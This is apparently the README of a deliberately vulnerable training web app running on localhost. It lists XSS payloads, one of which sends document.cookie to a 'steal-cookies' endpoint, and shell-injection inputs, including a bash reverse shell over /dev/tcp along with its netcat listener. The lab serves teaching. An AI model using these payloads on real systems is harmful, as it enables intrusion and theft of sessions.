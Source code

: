 ## Vulnerable Services

### Self XSS

Try some inputs inputs in the first field:

- `<strong>cat`
- `<img src="doesnt exist" onerror="alert('I just executed some JavaScript, yikes!')">`

### Reflected & Persistent XSS

Here's an example some URL which would be pretty naughty

- <http://localhost:8080/private/reflected-xss.html?first=%3Cimg%20src=%22doesnt%20exist%22%20onerror=%22alert(%27I%20just%20executed%20some%20JavaScript%20without%20any%20human%20interaction%20on%20the%20page!%27)%22%3E&autoSubmit=true>
- <http://localhost:8080/private/reflected-xss.html?first=%3Cimg%20src=%22doesnt%20exist%22%20onerror=%22fetch(`http://localhost:1337/steal-cookies?cookie=${encodeURIComponent(document.cookie)}`)%22%3E&autoSubmit=true>

## Shell Injection

Here's some inputs to try for the Video URL in the Shell Injection example.

- `; sleep 1;`
- `; /bin/bash -i >& /dev/tcp/172.20.0.3/7777 0>&1;`

For the latter input, you need to first open a netcat listener on the attacker-controlled-service (`make login-attacker-controlled-services`) with...

```
# Open a netcat listener on the attacker machine (e.g. 172.20.0.2)
nc -nlvp 7777
```

```
# Open a reverse shell connection on the victim machine (you do this part via injection on the vulnerable web app)
/bin/bash -i >& /dev/tcp/172.20.0.3/7777 0>&1
```
